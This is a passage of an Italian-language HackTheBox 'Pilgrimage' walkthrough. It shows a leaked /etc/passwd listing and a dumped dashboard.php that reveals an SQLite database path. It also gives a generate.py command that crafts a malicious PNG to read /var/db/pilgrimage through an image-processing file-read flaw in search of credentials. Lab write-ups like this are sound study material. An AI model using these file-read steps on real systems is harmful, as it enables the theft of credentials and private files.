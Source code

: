 ```bash
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

```

Cercando tra i file in dashboard.php ho trovato questo:

```bash

┌──(root㉿kali)-[/home/kali/htb/pilgrimage/dump]
└─# cat dashboard.php
<?php
session_start();
if(!isset($_SESSION['user'])) {
  header("Location: /login.php");
  exit(0);
}

function returnUsername() {
  return "\"" . $_SESSION['user'] . "\"";
}

function fetchImages() {
  $username = $_SESSION['user'];
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM images WHERE username = ?");
  $stmt->execute(array($username));
  $allImages = $stmt->fetchAll(\PDO::FETCH_ASSOC);
  return json_encode($allImages);
}
```

Vediamo si fa riferimento ad database `sqlite:/var/db/pilgrimage` 
Ora, allo stesso modo proveremo a leggere il file attraverso l'exploit per vedere se troviamo delle credenziali 

```bash
python3 generate.py -f "/var/db/pilgrimage" -o exploit.png
```

Carichiamo l'immagine come prima 
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/pilgrimange2.png)
sempre con wget la riscarichiamo e la analizziamo con `identify`
